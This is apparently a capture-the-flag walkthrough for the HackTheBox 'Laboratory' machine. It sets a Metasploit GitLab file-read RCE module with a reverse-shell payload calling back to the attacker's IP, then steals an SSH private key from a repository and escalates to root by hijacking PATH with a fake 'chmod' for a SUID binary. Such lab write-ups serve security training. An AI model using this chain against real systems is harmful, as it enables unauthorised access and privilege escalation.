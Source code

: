 # User

![image](https://user-images.githubusercontent.com/24206178/154681635-a2aca730-052c-4975-a41e-888c2c3f08f6.png)

below laboratory.htb there's a domain git.laboratory.htb

Add that to /etc/hosts as well as 
10.10.10.216 laboratory.htb git.laboratory.htb

![image](https://user-images.githubusercontent.com/24206178/154681664-f8c84ea2-9843-4375-96b6-5a7d19155059.png)

![image](https://user-images.githubusercontent.com/24206178/154681676-632e7dae-6cf5-4ce6-860c-fbb5fca0431f.png)

create an account

![image](https://user-images.githubusercontent.com/24206178/154681694-5b13c9c4-83e7-441b-a7e4-78b2f774ad3e.png)

find a version of gitlab

GitLab Community Edition 12.8.1

exploit 

exploit/multi/http/gitlab_file_read_rce

payload

generic/shell_reverse_tcp

![image](https://user-images.githubusercontent.com/24206178/154681719-1b1733b9-fee9-4c4f-8ae9-b063b4de0194.png)


now focus

set usrname and password →  the username and the password from the account you created 

set RHOSTS →   10.10.10.216
set LHOST →     10.10.16.4          This one tun0: 10.10.16.4 is the vpn ip
Set RPORT →     443
Set SSL →         true


Command shell session 1 opened (10.10.16.4:4444 -> 10.10.10.216:33394)
[1:02 AM]
whoami
git

Gitlab-rails console reset user password

Reset the dexer user password

After that log into the gitlab again using the new password

you need to look into what's there on dexter's repository on gitlab

authorized_keys

now you have a private ssh key that allows you to login to the machine as user dexter

save the key in text file

then

chmod 600 id_rsa

//Permissions of 600 mean that the owner has full read and write access to the file, while no other user can access the file

dexter@10.10.10.216 -i id_rsa

Important Note:
if there is an error 

Error loading key "./id_rsa": invalid format

open that id_rsa file and make sure that there's a new line after -----END OPENSSH PRIVATE KEY-----

# Root
Using the Dexter user, we need to enumerae a little bit

//search for suid binary

//You have to explt docker-security binary

//docker-security binary is a SUID so you have to exploit
//u can run linpeas.sh
// i use linpeas to find me suid
//find / -perm -4000 2>/dev/null

A lot of directories

/usr/local/bin/docker-security

echo "/bin/bash" > chmod    //first one is write /bin/bash into chmod file

chmod +x chmod      //second one is give permission to chmod

export PATH=$PWD:$PATH      //export the pwd and path into path

echo $PATH          //

/usr/local/bin/docker-security          //

![image](https://user-images.githubusercontent.com/24206178/154681818-f84e6b46-2666-4f4d-a3a8-2d031470f78c.png)
